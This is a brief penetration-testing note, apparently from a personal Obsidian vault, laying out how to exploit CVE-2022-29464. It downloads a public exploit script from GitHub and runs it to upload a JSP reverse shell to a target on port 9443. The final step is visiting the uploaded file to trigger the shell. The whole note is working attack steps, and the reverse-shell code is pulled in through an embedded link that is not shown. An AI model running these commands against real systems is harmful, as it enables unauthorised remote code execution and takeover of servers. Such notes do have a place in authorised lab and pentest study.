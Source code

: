 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
wget https://raw.githubusercontent.com/hakivvi/CVE-2022-29464/main/exploit.py
```

![[0._Reverse shells (WEB)#jsp]]

```bash - kali
python3 exploit.py https://$TARGET:9443 reverse.jsp
```

Next, we just visit:

`https://$TARGET:9443/authenticationendpoint/reverse.jsp`


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
